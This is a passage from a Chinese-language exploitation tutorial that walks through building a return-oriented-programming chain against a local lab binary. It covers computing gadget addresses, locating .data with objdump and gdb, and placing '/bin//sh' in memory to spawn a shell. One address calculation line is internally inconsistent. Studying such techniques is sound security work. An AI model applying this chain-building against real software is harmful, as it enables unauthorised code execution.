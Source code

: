 选择 0x796bfL: xor eax eax ; ret ;;
但是 0x796bfL 是 gadget 在 "lib-2.13.c" 库中的偏移地址，需计算 gadget 的实际地址，即 库起始地址 + 偏移地址
"lib-2.13.c" 的起始地址
```
0x796bf+ 0xb7e63000 = 0xB7EDC6BF
```
因此 xor eax,eax;ret 的实际地址为 "0xB7EDC6BF"

现在需将 "/bin/bash" 字符串保存在内存中，然后将其内存地址保存在 ebx 中。

选取内存地址，最好是放在 .data 段，查看二进制文件 .data 的起始地址。
```
root@kali:~/Desktop/tuts/so# objdump -D rop2 | grep data
Disassembly of section .rodata:
Disassembly of section .data:
080496fc <__data_start>:
```

.data 的其实地址为 "0x080496fc"。
也可在 gdb 中使用 "info files" 命令查看。

```
(gdb) info files
Symbols from "/root/Desktop/tuts/so/rop2".
Unix child process:
Using the running image of child process 28344.
While running this, GDB does not access memory from...
Local exec file:
`/root/Desktop/tuts/so/rop2', file type elf32-i386.
Entry point: 0x8048390
0x08048134 - 0x08048147 is .interp
---snipped---
0x080496d8 - 0x080496dc is .got
0x080496dc - 0x080496fc is .got.plt
0x080496fc - 0x08049704 is .data
---snipped---
(gdb)
```

问题：本想使用 .data + 4 和 .data + 8 存放字符串。但是 .data + 8 = 0x080496fc+4 =0x08049700，shellcode中不应出现 NULL，会截断shellcode，因此另选地址 0x08049704 存放字符串。

现在要做的是，将 "/bin/sh" 存放在 0x08049704 处。

需要将 "/bin/sh" 以 4 byte 为单位分割成两部分 "/bin" 、"/sh"，但是 "/sh" 只有 3 byte，最后 1 byte 就会自动填充成 NULL，这是不允许的。因此在最前面增加一个 /，即 "//sh"，最后的字符串为 "/bin//sh"。

将 "/bin" 和 "//sh" 分别放在刚才选定的地址 0x08049704 和 0x08049704 + 4 处。即调用 "mov [r32],r32;ret"指令序列。但首先需调用 "pop r32;ret" 指令序列将字符串 "/bin" 和 "//sh" 存放在 r32 中。

**（2） 寻找 mov 指令。**
```
ROPeMe> search mov [ eax %
---snipped---
0x29ecfL: mov [eax] ecx ;;
```
